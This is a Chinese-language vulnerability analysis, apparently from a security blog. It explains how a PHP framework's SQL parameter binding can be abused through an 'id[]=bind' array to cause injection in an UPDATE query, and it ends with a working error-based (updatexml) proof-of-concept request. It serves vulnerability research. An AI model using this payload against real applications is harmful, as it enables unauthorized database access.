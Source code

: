 当走到execute函数时sql语句为：


```sql
UPDATE `member` SET `user`=:0 WHERE `id` = :1'
```

然后$that = $this

![](images/15893448719820.jpg)


然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。

![](images/15893448796700.jpg)


替换后：

![](images/15893448850716.jpg)


明显发现之前的user参数为:0然后被替换为了liao，这样就把:替换掉了。

后面的:1明显是替换不掉的：

![](images/15893448969111.jpg)


那么我们将id[1]数组的参数变为0呢？


```sql
id[]=bind&id[]=0%27&money[]=1123&user=liao
```

![](images/15893449098099.jpg)


果然造成了注入：

**poc**


```sql
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```

![](images/15893449251209.jpg)


参考链接

https://www.anquanke.com/post/id/104847